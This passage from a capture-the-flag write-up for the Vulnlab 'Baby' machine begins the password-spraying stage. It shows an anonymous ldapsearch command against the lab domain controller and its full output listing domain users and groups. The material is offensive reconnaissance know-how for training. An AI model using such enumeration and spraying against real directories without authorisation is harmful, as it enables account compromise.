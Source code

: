 - Login as `Teresa.Bell` didnt work! We have to think about something different

## Password Spray

### Creating User list


- For password spraying we need to create an userlist
- We dont need to bind to get that information, so we use `ldapsearch` to get an userlist

```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# ldapsearch -H ldap://10.10.88.67 -x -b "dc=baby,dc=vl" "user" | grep dn |tee users.txt
dn: DC=baby,DC=vl
dn: CN=Administrator,CN=Users,DC=baby,DC=vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
dn: CN=krbtgt,CN=Users,DC=baby,DC=vl
dn: CN=Domain Computers,CN=Users,DC=baby,DC=vl
dn: CN=Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Schema Admins,CN=Users,DC=baby,DC=vl
dn: CN=Enterprise Admins,CN=Users,DC=baby,DC=vl
dn: CN=Cert Publishers,CN=Users,DC=baby,DC=vl
dn: CN=Domain Admins,CN=Users,DC=baby,DC=vl
dn: CN=Domain Users,CN=Users,DC=baby,DC=vl
dn: CN=Domain Guests,CN=Users,DC=baby,DC=vl
dn: CN=Group Policy Creator Owners,CN=Users,DC=baby,DC=vl
dn: CN=RAS and IAS Servers,CN=Users,DC=baby,DC=vl
dn: CN=Allowed RODC Password Replication Group,CN=Users,DC=baby,DC=vl
dn: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
dn: CN=Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Cloneable Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Protected Users,CN=Users,DC=baby,DC=vl
dn: CN=Key Admins,CN=Users,DC=baby,DC=vl
dn: CN=Enterprise Key Admins,CN=Users,DC=baby,DC=vl
dn: CN=DnsAdmins,CN=Users,DC=baby,DC=vl
dn: CN=DnsUpdateProxy,CN=Users,DC=baby,DC=vl
dn: CN=dev,CN=Users,DC=baby,DC=vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
dn: CN=Ian Walker,OU=dev,DC=baby,DC=vl
dn: CN=it,CN=Users,DC=baby,DC=vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl

```
